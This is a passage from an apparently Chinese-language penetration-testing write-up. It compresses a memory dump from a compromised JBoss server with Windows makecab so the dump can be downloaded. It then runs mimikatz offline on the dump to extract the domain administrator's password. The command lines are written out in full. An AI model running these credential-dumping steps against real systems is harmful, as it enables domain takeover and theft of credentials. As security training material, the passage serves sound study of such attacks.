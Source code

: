 利用 windows 自带的压缩文件下载回本地

```bash
makecab c:\jboss\bin\1.dmp  1.zip
```

[![](assets/1698897116-3285a7fcd04c710fffc7ab6cf31c402e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114511-23979f48-a31d-1.png)

看到压缩后的大小还是小很多的，下载回来的速度也会更快

[![](assets/1698897116-5dfac4ee6a79deb830f433b012fcbdf0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114532-3081db88-a31d-1.png)

mimikatz 离线读取得到域管 Administrator 的密码

```bash
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

[![](assets/1698897116-8ed40fb45cd05d2358a34a2712c24f88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114559-40a9b742-a31d-1.png)
